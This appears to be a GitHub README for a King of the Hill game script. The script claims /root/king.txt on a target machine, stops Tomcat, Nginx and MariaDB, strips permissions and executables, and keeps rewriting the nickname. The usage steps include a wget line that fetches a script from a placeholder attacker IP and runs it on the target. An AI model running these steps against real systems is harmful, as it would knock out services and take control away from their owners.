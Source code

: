 # The KOTH Script

<p align="center">
  <img src="king.png" alt="King">
</p>


The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the \`/root/king.txt\` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Step 1
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Step 2
       
       cd KOTH-Script && python3 -m http.server 80

3. In KOTH Machine.
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

4. Enter your desired nickname when prompted.

5. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the \`/root/king.txt\` file to maintain your dominance.

#### NOTE : Please ensure that the Python server is running on port 80 before executing the KOTH script. The KOTH script relies on the server to retrieve and run the check.sh script. Once the check.sh script is obtained and executed, you can safely close the Python server.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.

